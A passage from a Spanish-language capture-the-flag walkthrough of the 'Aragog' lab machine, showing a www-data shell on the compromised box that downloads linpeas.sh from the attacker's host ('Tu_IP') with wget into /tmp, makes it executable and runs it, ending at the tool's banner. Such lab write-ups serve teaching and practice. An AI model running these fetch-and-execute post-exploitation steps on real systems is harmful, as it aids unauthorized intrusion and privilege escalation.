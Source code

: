 Carguémoslo al directorio `/tmp` y le damos permisos de ejecución:
```bash
www-data@Aragog:/home/hagrid98$ cd /tmp
cd /tmp
www-data@Aragog:/tmp$ ls
ls
www-data@Aragog:/tmp$ wget http://Tu_IP/linpeas.sh
wget http://Tu_IP/linpeas.sh
--2024-11-07 02:47:25--  http://TU_IP/linpeas.sh
Connecting to TU_IP:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 827739 (808K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... ..........  6% 34.2M 0s
    50K .......... .......... .......... .......... .......... 12% 4.84M 0s
   100K .......... .......... .......... .......... .......... 18%  400M 0s
   150K .......... .......... .......... .......... .......... 24% 60.7M 0s
   200K .......... .......... .......... .......... .......... 30% 47.9M 0s
   250K .......... .......... .......... .......... .......... 37% 63.8M 0s
   300K .......... .......... .......... .......... .......... 43%  329M 0s
   350K .......... .......... .......... .......... .......... 49%  324M 0s
   400K .......... .......... .......... .......... .......... 55% 54.3M 0s
   450K .......... .......... .......... .......... .......... 61%  400M 0s
   500K .......... .......... .......... .......... .......... 68% 49.1M 0s
   550K .......... .......... .......... .......... .......... 74%  476M 0s
   600K .......... .......... .......... .......... .......... 80% 66.7M 0s
   650K .......... .......... .......... .......... .......... 86%  382M 0s
   700K .......... .......... .......... .......... .......... 92%  521M 0s
   750K .......... .......... .......... .......... .......... 98%  524M 0s
   800K ........                                              100%  251M=0.02s

2024-11-07 02:47:25 (44.6 MB/s) - 'linpeas.sh' saved [827739/827739]

www-data@Aragog:/tmp$ ls
ls
linpeas.sh
www-data@Aragog:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
```

Y ejecútalo:
```bash
www-data@Aragog:/tmp$ ./linpeas.sh
./linpeas.sh
                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
```